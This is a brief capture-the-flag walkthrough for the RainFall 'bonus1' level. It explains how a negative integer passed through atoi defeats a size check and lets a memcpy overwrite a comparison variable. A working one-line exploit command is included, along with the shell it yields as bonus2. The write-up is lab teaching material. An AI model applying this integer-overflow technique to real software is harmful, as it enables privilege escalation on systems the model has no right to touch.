 
# Walkthrough

## Disassembling the executable

see source.c

## Analysis


The program expects two arguments, an number and a string. The number is converted into an integer with atoi.

The n character of the string is copied into a buffer.

We exploited the absence of check of the return value to allocate more than 9 bytes.

This way we can write over the number 'ret' to match the comparison. We get a shell.


```
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c "print('A' * 40 + '\x46\x4c\x4f\x57')")
$ whoami
bonus2
$ ```
